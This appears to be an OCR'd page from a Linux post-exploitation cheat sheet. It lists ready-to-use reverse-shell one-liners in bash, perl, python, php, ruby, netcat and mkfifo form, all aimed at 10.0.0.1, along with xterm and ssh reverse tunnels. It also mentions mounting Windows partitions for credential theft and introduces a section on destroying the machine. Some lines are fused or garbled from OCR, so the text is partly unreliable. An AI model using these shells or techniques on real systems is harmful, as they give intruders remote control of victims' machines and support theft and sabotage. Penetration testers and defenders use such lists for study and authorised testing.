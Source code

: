 Maintaining control
Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
xterm -display 10.0.0.1:1se	
Listener- Xnest :1
Add permission to connect- xhost +victimIP
ssh -NR 3333:localhost:22 user@yourhost
nc -e /bin/sh 10.0.0.1 1234

Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.
TODO: insert details on what to look for

Stuff to be sorted
## GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES DOWN

Command	
Output
ps aux		
List of running processes
id
List current user and group along with user/group id		
w
Show info about who is logged, what are they are doing		
who -a
Print information about users		
cat /dev/core > /dev/audio

cat /dev/mem > /dev/audio
Makes a sound from the memory content.
Usefulness of this??? (none, aside from pissing off the sysadmin, in the very unlikely case that the server has speakers and the legacy OSS driver)
sudo -p
allows the user to define what the password prompt will be
(useful for fun customization with aliases or shell scripts)
Deleting and Destroying
(If it is necessary to leave the machine inaccessible or unusable)
Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.
